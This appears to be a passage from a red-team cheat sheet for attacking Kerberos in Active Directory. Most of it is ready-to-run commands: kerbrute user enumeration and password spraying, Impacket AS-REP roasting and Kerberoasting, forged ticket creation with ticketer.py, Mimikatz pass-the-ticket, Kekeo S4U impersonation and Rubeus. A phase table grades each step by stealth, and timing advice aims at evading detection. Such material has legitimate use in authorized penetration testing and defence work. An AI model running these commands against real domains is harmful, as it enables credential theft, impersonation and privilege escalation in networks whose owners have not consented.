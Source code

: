 #### Kerbrute (existence and auth timing)
```bash
kerbrute userenum -d corp.local users.txt --dc dc01.corp.local
kerbrute passwordspray -d corp.local users.txt 'Spring2025!'
```

#### Impacket (Python suite)
```bash
GetNPUsers.py corp.local/ -no-pass -usersfile users.txt -dc-ip 10.0.0.10 -format hashcat -outputfile asrep_hashes.txt
GetUserSPNs.py corp.local/USER:'P@ssw0rd!' -dc-ip 10.0.0.10 -request -outputfile spn_tgs.kirbi
ticketer.py -aesKey <krbtgt_aes> -domain corp.local -spn CIFS/filesrv.corp.local forged_user
```

#### Mimikatz / Kekeo (ticket ops)
```cmd
mimikatz.exe "privilege::debug" "kerberos::list" exit
mimikatz.exe "kerberos::ptt c:\\temp\\tgs.kirbi" exit
kekeo.exe tgt::ask /user:USER /domain:corp.local /password:P@ssw0rd!
kekeo.exe tgs::s4u /user:svc /impersonate:admin /service:http/web01.corp.local
```

### **🛠️ Alternative Enumeration Tools**
- LDAPDomainDump, AdFind, DSInternals

### **🔍 Specialized Tools**
- SharpKerberos, KrbRelayX (advanced/edge scenarios)

## 📋 **QUICK START KERBEROS DISCOVERY**

| Phase | Tool | Command | Purpose | OPSEC Level |
|-------|------|---------|---------|-------------|
| **1** | MS AD Module | `Get-ADUser -Filter * -Properties ServicePrincipalName -ResultSetSize 25` | Initial SPN landscape (scoped) | 🟢 Stealth |
| **2** | Native | `klist` | Current TGT/TGS cache baseline | 🟢 Stealth |
| **3** | PowerView | `Get-DomainUser -PreauthNotRequired` | AS-REP roastable discovery | 🟡 Balanced |
| **4** | PowerView | `Get-DomainSPNTicket -SPN MSSQL/* -OutputFormat Hashcat` | Targeted kerberoast | 🟠 Noisy |
| **5** | Red Team | `Rubeus asktgt /user:svc /password:... /ptt` | On-demand TGT for testing | 🔴 High |

## 🎭 **AT-A-GLANCE: KERBEROS ESSENTIALS**

**Reveals:**
- Realm, KDCs, SPN surface, pre-auth policy, delegation surfaces, encryption types

**Primary Use Cases:**
- Kerberoasting target selection, AS-REP roasting, delegation abuse mapping, ticket ops

**Execution Speed:**
- Stealth: 3–6s jittered queries; Balanced: 1–2s; Lab: 100–300ms
